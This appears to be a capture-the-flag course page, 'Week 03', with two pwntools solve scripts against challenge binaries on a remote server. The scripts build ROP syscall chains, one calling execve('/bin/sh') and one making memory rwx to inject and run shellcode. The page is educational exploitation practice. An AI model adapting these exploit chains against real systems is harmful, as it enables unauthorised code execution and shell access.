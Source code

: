 +++
title = "Week 03"
weight = 2
slug="week-03"
description = "- minimal: syscall to call execve(\"bin/sh\", 0, 0)<br>- minimal 2: syscall to mprotect a region of memory to be rwx, then syscall to read shellcode to it and jump to the shellcode"
+++

# minimal
Syscall to call execve("/bin/sh", 0, 0)

Solve script:
``` py
from pwn import *

p = remote("128.199.12.141", 7005)

elf = ELF('./minimal')

buf = b'A'*8

shell = p64(0x402000)
syscall = p64(0x401032)
rax = p64(0x40100e)
rdi = p64(0x401004)
rsi = p64(0x401006)
rdx = p64(0x401008)

p.sendline(buf + rax + p64(59) + rdi + shell + rsi + p64(0) + rdx + p64(0) + syscall)

p.interactive()
```

# minimal 2
Syscall to mprotect a region of memory to be rwx then syscall to read shellcode to it then jump to the shellcode

Solve script:
``` py
from pwn import *

p = remote("128.199.12.141", 7006)
#p = process('./minimal_2')
#gdb.attach(p)

elf = ELF('./minimal_2')
context.arch = elf.arch
context.log_level = 'DEBUG'

buf = b'A'*8
shellcode = asm(shellcraft.sh())

syscall = p64(0x401013)
rax = p64(0x40100e)
rdi = p64(0x401004)
rsi = p64(0x401006)
rdx = p64(0x401008)
rbp = p64(0x401017)
code_addr = p64(0x400000)

# mmap 0x400000 to be rwx
payload = buf + rax + p64(10) + rdi + code_addr + rsi + p64(0x1000) + rdx + p64(7) + syscall

# read shellcode to 0x400000
payload += rax + p64(0) + rdi + p64(0) + rsi + code_addr + rdx + p64(0x1000) + syscall

# jump to shellcode
payload += code_addr


# send payload then shellcode
p.sendline(payload)
p.sendline(shellcode)

p.interactive()
```
